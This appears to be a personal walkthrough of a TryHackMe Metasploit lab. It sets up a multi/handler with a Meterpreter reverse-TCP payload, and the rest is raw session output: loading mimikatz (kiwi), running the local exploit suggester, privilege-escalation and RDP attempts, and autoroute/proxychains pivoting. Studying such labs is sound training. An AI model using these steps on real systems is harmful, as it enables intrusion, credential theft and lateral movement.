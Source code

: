 
# RP: Metasploit
https://tryhackme.com/room/rpmetasploit

First things first, we need to initialize the database! Let's do that now with the command: 

```sh
kali@kali:~$ sudo msfdb init
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

```sh
msfconsole
```

```
msf5 > db_status
[*] Connected to msf. Connection type: postgresql.
```


10.10.19.50

db_nmap -sV 10.10.19.50


search multi/handler
use 6
set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 10.9.28.128
set RHOST 10.10.19.50


Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.28.128:4444 -> 10.10.19.50:49209 (10.10.19.50)

eterpreter > migrate spoolsv.exe
[-] Not a PID: spoolsv.exe

meterpreter > migrate 1348
[*] Migrating from 2264 to 1348...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)

meterpreter > whoami
[-] Unknown command: whoami.

meterpreter > uuid
[+] UUID: 0eed7d0565659003/x86=1/windows=1/2020-04-18T21:53:37Z

meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege


meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine .....
[+] This is a Xen Virtual Machine

meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.19.50 - Collecting local exploits for x86/windows...
[*] 10.10.19.50 - 30 exploit checks are being tried...
[+] 10.10.19.50 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.19.50 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

eterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20200418180534_default_10.10.19.50_host.windows.cle_787296.txt

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)

meterpreter > run autoroute -h
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module


run autoroute -s 172.18.1.0 -n 255.255.255.0



proxychains bash

socks5   127.0.0.1   1080



